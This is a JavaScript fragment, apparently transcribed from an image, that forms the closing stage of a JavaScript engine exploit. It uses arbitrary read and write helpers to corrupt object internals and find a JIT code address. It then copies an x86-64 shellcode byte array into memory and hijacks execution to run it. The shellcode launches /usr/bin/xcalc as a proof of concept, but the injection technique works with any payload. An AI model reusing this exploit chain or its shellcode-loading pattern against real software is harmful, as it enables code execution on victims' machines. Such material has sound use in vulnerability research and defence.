 ```javascript
add(oops,new data("0x30"))
oops.reverse()

write1(group,name)
addEight()
write1(group,flags)
addEight()
write1(group,oops)
addEight()
write1(group,spec)
addEight()
write1(group,ext)
addEight()
write1(group,oOps)
addEight()


write1(group,jitaddr)

sc_buffer = new Uint8Array(0x1000);
buf[7].asdf=sc_buffer


slots_ptr.reverse()
add(slots_ptr,eight)
slots_ptr.reverse()

sc_buffer_addr = read(slots_ptr)
sc_buffer_addr[6]=0
sc_buffer_addr[7]=0


sc_buffer_addr.reverse()
add(sc_buffer_addr,new data("0x38"))
sc_buffer_addr.reverse()


ptr = read(sc_buffer_addr)

ptr.reverse()
print1(ptr)
ptr.reverse()

ptr.reverse()
ss=inttod(ptr)
ptr.reverse()


sc = [72, 141, 61, 73, 0, 0, 0, 72, 49, 246, 86, 87, 84, 94, 72, 49, 210, 82, 72, 141, 21, 87, 0, 0, 0, 82, 84, 90, 176, 59, 15, 5, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 144, 47, 117, 115, 114, 47, 98, 105, 110, 47, 120, 99, 97, 108, 99, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 68, 73, 83, 80, 76, 65, 89, 61, 58, 48, 0]


for(var i=0;i<sc.length;i++)
  sc_buffer[i]=sc[i]

write1(aa,backingbuffer)

buf[7].jjj=ss
```
